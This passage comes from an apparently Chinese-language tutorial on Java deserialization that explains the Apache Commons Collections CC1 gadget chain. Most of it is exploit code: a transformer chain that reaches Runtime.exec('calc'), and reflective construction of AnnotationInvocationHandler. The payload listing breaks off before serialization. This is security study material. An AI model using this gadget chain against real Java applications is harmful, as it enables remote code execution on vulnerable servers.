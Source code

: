 ```Java
Map<Object, Object> outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

for (Map.Entry<Object, Object> e : outerMap.entrySet()) {
    e.setValue(Runtime.getRuntime());
}
```

最后需要找一个调用了 `setValue()` 方法的反序列化点

使用 `sun.reflect.annotation.AnnotationInvocationHandler`

![image-20250808170345477](https://mingzu.oss-cn-hongkong.aliyuncs.com/blog/20250808170345610.png)

查看构造器，没有修饰符，所以是包可见，因此只能反射调用

![image-20250808173345003](https://mingzu.oss-cn-hongkong.aliyuncs.com/blog/20250808173345049.png)

```Java
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, outerMap);
```

两个参数，第一个要求传入一个注解类型的 `Class` 对象，这里传 `Retention.class` （其他的也行），第二个传入构造的 `map`

### Payload

```java
package javaSec.Ser;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.Map;

public class CommonsColletions1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]}),
                new InvokerTransformer("exec", new Class[] {String.class}, new String[] {"calc"}),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map<Object, Object> innerMap = new HashMap<>();
        innerMap.put("value", "mzzz");

        Map<Object, Object> outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
```